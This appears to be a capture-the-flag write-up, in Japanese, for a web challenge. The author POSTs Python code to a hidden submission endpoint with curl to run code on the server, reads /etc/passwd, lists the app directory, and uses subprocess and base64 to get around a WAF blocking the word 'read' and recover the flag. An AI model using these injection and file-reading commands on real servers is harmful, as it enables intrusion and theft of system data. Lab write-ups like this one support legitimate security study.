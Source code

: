# How to read read without read:Web:630pts
Can you bypass their WAF 😉 they are so confident about it.  
[Click here](https://ch2.sbug.se/)  

# Solution
アクセスすると何やらコードが実行できそうなページだが送信できない。  
[site.png](site/site.png)  
```bash
$ curl https://ch2.sbug.se/
~~~
  <!DOCTYPE html>
<html>
<head>
    <title>How to read read without read</title>
<script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
    <h2>How to read read without read</h2><br>
    <div class="submitter">
    <form id="submitter" method="post" action="submit">
        <label><b>Enter your code here</b>
        </label>
        <textarea type="text" name="code" id="code" placeholder="print('hello world')"></textarea>
        <br><br>
        </b>
        </label>
        <!--input type="button" name="btn" id="btn" value="Run"!-->
    </form>
</div>
~~~
```
ボタンが隠されているようだ。  
普通にPOSTすればよいが、言語が不明なのでいろいろと試す。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(list('abc'))"
<html>['a', 'b', 'c']
~~~
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(open('/etc/passwd').read())"
<html>root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
~~~
```
Pythonのようだ。  
ディレクトリを覗く。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('os').listdir())"
<html>['static', 'homeapp', 'flag', 'entrypoint.sh', '.git', 'read', 'init.sql', '.idea', 'dockerfile', 'sampleApp', 'docker-compose.yml', '.gitignore', '.env', 'requirements.txt', 'manage.py', 'file.sh', 'nginx']
~~~
```
`read`なるファイルがあるので読み出せばよいが、readが使えない(500エラーになる)ようだ。  
subprocessを使えばよい。  
出力が崩れたのでbase64をかませている。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('subprocess').check_output(['cat','read']))"
<html>b'SBCTF{<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="2b7c647c74521b5e74436b5d18">[email&#160;protected]</a><a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="85dae7fcf5c5">[email&#160;protected]</a>$$3d_!t}\n'
~~~
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('base64').b64encode(__import__('subprocess').check_output(['cat','read'])))"
<html>b'U0JDVEZ7V09XX3kwdV9oQHYzX2J5cEAkJDNkXyF0fQo='
~~~
$ echo "U0JDVEZ7V09XX3kwdV9oQHYzX2J5cEAkJDNkXyF0fQo=" | base64 -d
SBCTF{WOW_y0u_h@v3_byp@$$3d_!t}
```
flagが得られた。  

## SBCTF{WOW_y0u_h@v3_byp@$$3d_!t}